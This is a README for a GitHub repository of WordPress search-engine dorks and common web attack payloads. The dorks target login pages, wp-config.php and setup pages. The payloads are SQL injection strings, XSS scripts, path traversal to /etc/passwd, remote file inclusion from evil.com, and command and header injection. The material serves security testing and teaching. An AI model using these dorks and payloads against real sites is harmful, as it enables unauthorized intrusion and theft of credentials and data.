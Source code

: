 # WordPress Dorks Repository

![WordPress](https://img.shields.io/badge/WordPress-CMS-blue)

Welcome to the WordPress Dorks repository! This collection comprises specific WordPress dorks, payloads, vulnerabilities, and insights into potential security vulnerabilities or loopholes in websites powered by the WordPress Content Management System (CMS).

## Table of Contents
- [What is WordPress?](#what-is-wordpress)
- [Examples of WordPress Dorks](#examples-of-wordpress-dorks)
- [WordPress Vulnerabilities](#wordpress-vulnerabilities)
- [WordPress Payloads](#wordpress-payloads)
- [Understanding WordPress Dorks](#understanding-wordpress-dorks)
- [Exploring the GDorks Main Repository](#exploring-the-gdorks-main-repository)
- [How to Use This Repository](#how-to-use-this-repository)
- [Contributing](#contributing)


## What is WordPress?

WordPress is a widely used and popular open-source Content Management System (CMS) that empowers individuals and businesses to create websites and blogs. However, due to its widespread usage, WordPress can be prone to various security vulnerabilities, especially if not maintained or configured properly.

## Examples of WordPress Dorks

These WordPress-specific dorks aim to identify potential security weaknesses or loopholes in WordPress-powered websites:

1. **WordPress Version Check Dork:** Identifies the WordPress version in use.

   ```
   inurl:/readme.html
   ```

2. **WordPress Login Page Dork:** Locates WordPress login pages.

   ```
   inurl:/wp-login.php
   ```

3. **WordPress Configuration File Dork:** Searches for WordPress configuration files.

   ```
   inurl:wp-config.php
   ```

4. **WordPress Database Information Dork:** Retrieves WordPress database information.

   ```
   inurl:/wp-admin/setup-config.php
   ```

5. **WordPress Plugins Dork:** Identifies plugins and their vulnerabilities.

   ```
   inurl:/wp-content/plugins/
   ```

For additional WordPress-specific dorks and in-depth explanations, explore the contents within the [GDorks repository](https://github.com/Ishanoshada/GDorks/).

## WordPress Vulnerabilities

- **SQL Injection:** WordPress is vulnerable to SQL injection attacks, especially in poorly coded plugins or themes.
- **Cross-Site Scripting (XSS):** XSS vulnerabilities may exist in various parts of WordPress sites, leading to client-side attacks.
- **File Inclusion:** Improper file handling could lead to file inclusion vulnerabilities.
- **Directory Traversal:** WordPress sites may be vulnerable to directory traversal attacks.

## WordPress Payloads for Security Testing

Here are some common WordPress payloads that can be used for security testing, auditing, or demonstrating potential vulnerabilities:

1. **SQL Injection Payloads:**

   - `' OR 1=1--`
   - `1' OR '1' = '1'--`

2. **XSS Payloads:**

   - `<script>alert('XSS')</script>`
   - `<img src="javascript:alert('XSS')" />`

3. **Path Traversal Payloads:**

   - `../../../etc/passwd`
   - `../../../../../../etc/passwd%00`

4. **Remote File Inclusion Payloads:**

   - `http://evil.com/malicious.php`
   - `data://text/plain;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`

5. **Command Injection Payloads:**

   - `; ls -la`
   - `| ls`

6. **LDAP Injection Payloads:**

   - `*)(|(objectClass=*))`

7. **Brute Force Payloads:**

   - `' OR '1'='1`

8. **Header Injection Payloads:**

   - `Location: https://malicious-site.com`

Please ensure you have proper authorization and permission before utilizing these payloads for security testing. Remember to act responsibly and ethically when testing WordPress websites for vulnerabilities.

## Understanding WordPress Dorks

Understanding WordPress dorks is crucial to assess the security posture of WordPress websites. Recognizing these dorks enables proactive measures to secure WordPress installations and prevent potential exploitation.

## Exploring the GDorks Main Repository

The [GDorks repository](https://github.com/Ishanoshada/GDorks/) is an extensive resource containing a diverse collection of WordPress dorks, categorized folders, and comprehensive documentation covering various vulnerabilities and security insights related to WordPress CMS.

## How to Use This Repository

This repository is organized into folders, each containing specific WordPress dorks, payloads, and related information. Users can explore these folders to discover WordPress dorks and payloads of interest.

To contribute to this repository, follow the steps outlined in the [Contributing](#contributing) section.

## Contributing

Contributions to this repository are encouraged! If you have additional WordPress dorks, examples, or documentation to share, follow these steps:

1. Fork the repository.
2. Create a new branch with a descriptive name.
3. Add your WordPress dorks or other content.
4. Submit a pull request.

Your contributions will help make this repository more comprehensive and informative for the WordPress community.


Explore, learn, and contribute responsibly to secure WordPress installations.

Happy hunting for WordPress vulnerabilities, and remember to act responsibly and ethically when testing security vulnerabilities.
